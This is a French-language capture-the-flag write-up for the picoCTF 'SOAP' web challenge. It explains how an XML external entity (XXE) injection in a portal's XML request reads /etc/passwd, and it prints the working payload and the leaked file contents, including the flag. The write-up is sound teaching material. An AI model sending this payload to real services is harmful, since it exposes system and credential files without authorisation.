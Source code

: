 # SOAP

## Enoncé
Catégorie : [Web Exploitation](../)

Points : 100

Tags : `XXE`

Description :
> The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?  
> Web Portal

Hints :
1. XML external entity Injection


## Approche

Le portail web présente différents établissements universitaires, pour lesquels on peut avoir des informations complémentaires via les boutons `Details`.

On examine les appels HTTP réalisés lorsqu'on clique sur un bouton `Details`, via la vue Network des DevTools du navigateur :
![Vue Netwok](devtools_network.png)

On va essayer d'exploiter cet appel, dont le payload est du type :
```xml
<?xml version="1.0" encoding="UTF-8"?>
<data>
  <ID>2</ID>
</data>
```


## Solution

Comme indiqué par le tag `XXE` de l'énoncé, on se tourne vers l'exploitation d'une faille de ce type.

Pour accéder au fichier `/etc/passwd`, au lieu d'utiliser le payload classique, on soumet celui-ci :
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "/etc/passwd" >]>
<data>
    <ID>&xxe;</ID>
</data>
```

On réalise l'opération avec `curl`. En retour on obtient le contenu du fichier `/etc/passwd`, avec le flag présent dedans :
```txt
Invalid ID: root:x:0:0:root:/root:/bin/bash
...
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_xxxxxxxx}
```
